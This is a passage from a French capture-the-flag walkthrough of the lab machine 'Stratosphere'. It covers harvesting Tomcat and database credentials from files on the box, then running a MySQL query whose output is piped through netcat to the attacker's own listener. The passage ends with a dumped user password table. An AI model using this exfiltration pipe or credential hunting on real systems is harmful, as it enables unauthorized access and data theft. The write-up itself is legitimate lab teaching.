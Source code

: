 ```html
<user username="teampwner" password="cd@6sY{f^+kZV8J!+o*t|<fpNy]F_(Y$" roles="manager-gui,admin-gui" />
```

Malheureusement elles se sont révélées être d'aucune utilité ici...  

Le mot de passe ne nous permet pas non plus d'accéder en SSH au compte utilisateur présent sur la machine :  

```plain
richard:x:1000:1000:Richard F Smith,,,:/home/richard:/bin/bash
```

Un bon gros *grep* des familles sur le terme *admin* permettra finalement de faire remonter le fichier */var/lib/tomcat8/db\_connect* (le nom du fichier ne semble pas standard d'après la quantité de résultats sur Google).  

```plain
[ssn]
user=ssn_admin
pass=AWs64@on*&

[users]
user=admin
pass=admin
```

En listant les processus j'ai préalablement remarqué la présence d'un serveur MySQL. Sert-il à quelque chose ? Il suffit de passer les identifiants et la requête sur la ligne de commande (sans oublier la redirection d'erreur) :  

```bash
echo 'show databases;'|mysql -uadmin -padmin 2>&1|netcat -u 10.10.14.209 8888
```

Finalement on obtient un retour positif :  

```plain
devloop@kali:~/Documents/stratosphere$ ncat -l -p 8888 -v -u
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::8888
Ncat: Listening on 0.0.0.0:8888
Ncat: Connection from 10.10.10.64.
Database
information_schema
users
```

On enchaîne sur un *show tables* puis un *select \** :  

```plain
Tables_in_users
accounts

fullName    password    username
Richard F. Smith    9tc*rhKuG5TyXvUJOrE^5CK7k   richard
```
